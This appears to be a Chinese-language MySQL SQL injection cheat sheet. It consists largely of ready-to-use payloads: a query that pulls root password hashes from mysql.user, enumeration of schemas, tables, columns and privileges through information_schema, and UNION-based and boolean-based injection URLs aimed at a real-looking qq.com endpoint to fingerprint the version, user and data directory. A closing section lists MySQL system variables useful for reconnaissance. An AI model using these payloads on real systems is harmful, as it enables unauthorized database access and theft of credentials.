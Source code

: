 查询information_schema(>=5.0 才存在,mysql5.0以下需要字典猜表)、mysql 数据库的信息(需要root权限，表名、列名、对应权限等)  

mysql.user、information_schema.schemata、information_schema.tables、information_schema.columns、  information_schema.user_privileges  

`SELECT CONCAT_WS(0x3A, user, password) FROM mysql.user WHERE user = 'root'-- (Privileged)`  
使用CONCAT()时，任何一个参数为null，将返回null， 推荐使用CONCAT_WS()。  
CONCAT_WS() 函数第一个参数表示用哪个字符间隔所查询的结果。  
`SELECT database();`  
`SELECT group_concat(schema_name) FROM information_schema.schemata;`  
`SELECT DISTINCT(db) FROM mysql.db;-- (Privileged)`
`UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;--` MySQL 4版本时用version=9，MySQL 5版本时用version=10  
`UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename';`  
`union select concat(grantee,0x3a,privilege_type,0x3a,is_grantable) from information_schema.user_privileges`  //权限    
`SELECT grantee, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'file' AND grantee like '%username%';`


查询版本，用户，操作系统等  
``` 
http://www.qq.com/1.php?id=-1 union select 1,2,3,4,@@datadir,6,7,8,9,10,11,12,13,14
http://www.qq.com/1.php?id=-1 union select 
1,2,3,4,group_concat(version(),0x3a,database(),0x3a,user()),6,7,8,9,10,11,12,13,14
http://www.qq.com/1.php?id=-1 union select 1,2,3,4,@@datadir,6,7,8,9,10,11,12,13,14
http://www.qq.com/1.php?id=-1 union all select 1,unhex(hex(@@version)),3/*
http://www.qq.com/1.php?id=5 and substring(@@version,1,1)=4
``` 
如果MySQL的版本是4，这应该返回TRUE.   
用5替换4，并且，如果返回的查询匹配则版本为5   
```  
http://www.qq.com/1.php?id=5 and substring(@@version,1,1)=5
http://www.qq.com/1.php?id=5 AND MID(VERSION(),1,1) = '5';
http://www.qq.com/1.php?id=5 AND ord(MID(VERSION(),1,1)) = 53;
```
---------------------------------------------------------------------------------------------------------

### 内置变量列表  
@@version  VERSION()  @@GLOBAL.VERSION 版本   
@@datadir 路径  
@@basedir  
@@version_compile_os  
@@have_openssl 如果mysqld支持客户端/服务器协议的SSL(加密)则为YES  
@@version_compile_os 判断系统类型  
@@max_allowed_packet 包或任何生成的/中间字符串的最大大小  
@@max_user_connections MySQL账户允许的最大同时连接数,0表示没限制   
@@skip_networking 如果服务器只允许本地(非TCP/IP)连接,该值为ON  
@@table_type 默认表类型(存储引擎)  
@@basedir MySQL安装基准目录  
@@character_set_database 默认数据库使用的字符集  
@@datadir 数据库存储的地方  
@@expire_logs_days 二进制日志自动删除的天数,默认是0,表示"没有自动删除"  
@@group_concat_max_len 允许group_concat()函数结果的最大长度  
@@log_error 错误日志的位置  
@@lower_case_file_system 该变量说明是否数据目录所在的文件系统对文件名的大小写敏感.ON说明对文件名的大小写不敏感,OFF表示敏感  
@@lower_case_table_names 如果设置为1,表名用小写保存到硬盘上,并且表名比较时不对大小写敏感.如果设置为2,按照指定的保存表名,但按照小写来比较  
@@plugin_dir 插件目录的路径  
@@tmpdir 保存临时文件和临时表的目录  
@@tmp_table_size 如果内存内的临时表超过该值,MySQL自动将它转换为硬盘上的MyISAM表  
@@sql_mode 当前服务器的sql模式  
@@tx_isolation 默认事务隔离级别.默认值为REPEATABLE-READ  
@@Connections 连接mysql数据库服务器的次数(不管成功还是失败)  
@@max_write_lock_count 最大写锁数量  
@@old_passwords 是否启用mysql323加密方式(就是mysql用户密码的hash是16位的)  
